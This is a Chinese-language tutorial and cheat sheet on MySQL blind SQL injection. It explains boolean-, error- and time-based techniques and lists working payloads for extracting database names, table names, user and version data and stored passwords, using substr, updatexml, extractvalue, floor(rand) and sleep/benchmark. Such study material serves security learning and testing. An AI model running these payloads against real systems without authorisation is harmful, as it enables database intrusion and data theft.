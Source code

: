 ```yaml
---
layout: default
category: Web安全
tags: [SQL注入]
---
```


## 0x00 盲注的理解

盲注就是在SQL注入的过程中，在SQL语句执行后，选择的数据不能回显到前端页面。需要一些方法进行判断我们的SQL语句是否被执行了，这个过程称之为盲注。分为三类：

* 基于布尔的注入
* 基于报错的注入
* 基于时间的注入

## 0x01 基于布尔的盲注

**常用的函数：**

* mid()
* substr()
* ascii()
* ord()
* left()

**一些payload：**

```
1. left(database(),1) > 'u' # //数据库名的第一个字符

2. ascii(substr((select table_name from information_schema.tables where 		   table_schema=database() limit 0,1) 1, 1)) = 100 --+

3. ascii(substr((select database()),1,1)) = 97 --+

4. ord(mid((select ifnull(CAST(username AS CHAR),0x20)FROM security.users ORDER
BY id LIMIT 0,1),1,1))>97 #

5. regexp正则注入：其他文章有详细介绍
	select user() regexp '^ro'
	1=(if((user() regexp '^r'),1,0));
	1=(select 1 from information_schema.tables
where table_schema='security' and table_name regexp '^us[a-z]' limit 0,1);

6. like  匹配注入，和正则类似，MySQL可以有like,其他查找相关函数
	select user() like 'ro%' //返回1或0
```

## 0x02 基于报错的盲注

**常用的函数：**

* concat()	
* updatexml()  //更新xml
* floor()     //向下取整
* rand()     //随机种子
* extractvalue()  //xml查询

目的就是有一个，构造 `payload` 让信息通过错误提示回显

**payload：**

```
1、* select 1,count(*),concat(0x3a,(select user()),0x3a,0x3a,floor(rand(0)*2))
   a from information_schema.columns group by a; //mysql的bug
   * select count(*) from information_schema.tables group by 	  concat(version(),floor(rand()*2))
   * select count(*) from (select 1 union select null union
select !1) group by concat(version(),floor(rand(0)*2))
   * select min(@a:=1) from information_schema.tables group by concat(passwo
rd,@a:=(@a+1)%2)

2、* select exp(~(select * from (select user())a)) //double数值超出范围，版本5.5以上
   * select !(select * from (select user())x) -（ps:这是减号） ~0
   	//bigint 超出范围；~0 是对0 逐位取反，很大的版本在5.5.5 及其以上

3、extractvalue(1,concat(0x7e,(select database()),0x7e)) //MySQL对xml数据查询，语法报错

4、updatexml(1,concat(0x7e,(select @@version),0x7e),1) //mysql对xml数据进行更新，语法报错

5、select * from (select name_const(version(),1), name_const(version(),1))x;
	//mysql重复的特性，此处重复了version,所以报错
```

## 0x03 基于时间的盲注

**常用函数：**

* sleep()
* benchmark()   //边信道攻击，占用cpu资源

**payload：**

````
1、if(ascii(substr(database(),1,1))>115,0,sleep(5))%23 //if 判断语句，条件为假，执行sleep

2、union select if(substring(current,1,1)=char(119),benchmark(5000000,ENCODE(‘M
SG’,’by 5 seconds’)),null) FROM (select database() as current) as tb1;
````

